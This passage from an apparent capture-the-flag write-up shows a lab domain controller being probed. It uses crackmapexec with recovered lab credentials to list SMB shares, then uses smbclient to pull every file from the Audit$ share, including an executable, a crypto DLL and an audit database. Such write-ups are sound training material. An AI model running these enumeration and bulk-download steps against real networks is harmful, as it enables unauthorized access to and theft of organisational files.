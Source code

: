 The comment above hint to the share `Audit`.

If we run `crackmapexec` we can see that we have read permissions on the share:

```shell
$ crackmapexec smb cascade.local -u s.smith -p sT333ve2 --shares
SMB         cascade.local   445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         cascade.local   445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         cascade.local   445    CASC-DC1         [+] Enumerated shares
SMB         cascade.local   445    CASC-DC1         Share           Permissions     Remark
SMB         cascade.local   445    CASC-DC1         -----           -----------     ------
SMB         cascade.local   445    CASC-DC1         ADMIN$                          Remote Admin
SMB         cascade.local   445    CASC-DC1         Audit$          READ            
SMB         cascade.local   445    CASC-DC1         C$                              Default share
SMB         cascade.local   445    CASC-DC1         Data            READ            
SMB         cascade.local   445    CASC-DC1         IPC$                            Remote IPC
SMB         cascade.local   445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         cascade.local   445    CASC-DC1         print$          READ            Printer Drivers
SMB         cascade.local   445    CASC-DC1         SYSVOL          READ            Logon server share 
```

Let's connect to the share and download everything.

```shell
$ smbclient //cascade.local/Audit$ -U s.smith sT333ve2
Try "help" to get a list of possible commands.
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
getting file \CascAudit.exe of size 13312 as CascAudit.exe (19.0 KiloBytes/sec) (average 19.0 KiloBytes/sec)
getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (28.8 KiloBytes/sec) (average 22.7 KiloBytes/sec)
getting file \RunAudit.bat of size 45 as RunAudit.bat (0.1 KiloBytes/sec) (average 17.9 KiloBytes/sec)
getting file \System.Data.SQLite.dll of size 363520 as System.Data.SQLite.dll (369.4 KiloBytes/sec) (average 160.8 KiloBytes/sec)
getting file \System.Data.SQLite.EF6.dll of size 186880 as System.Data.SQLite.EF6.dll (281.2 KiloBytes/sec) (average 186.7 KiloBytes/sec)
getting file \DB\Audit.db of size 24576 as DB/Audit.db (59.1 KiloBytes/sec) (average 171.6 KiloBytes/sec)
getting file \x64\SQLite.Interop.dll of size 1639936 as x64/SQLite.Interop.dll (500.5 KiloBytes/sec) (average 330.6 KiloBytes/sec)
getting file \x86\SQLite.Interop.dll of size 1246720 as x86/SQLite.Interop.dll (929.4 KiloBytes/sec) (average 429.5 KiloBytes/sec)
smb: \> 
```

We can see the file `RunAudit.bat` which runs `CascAudit.exe` with the file `"\\CASC-DC1\Audit$\DB\Audit.db"`.
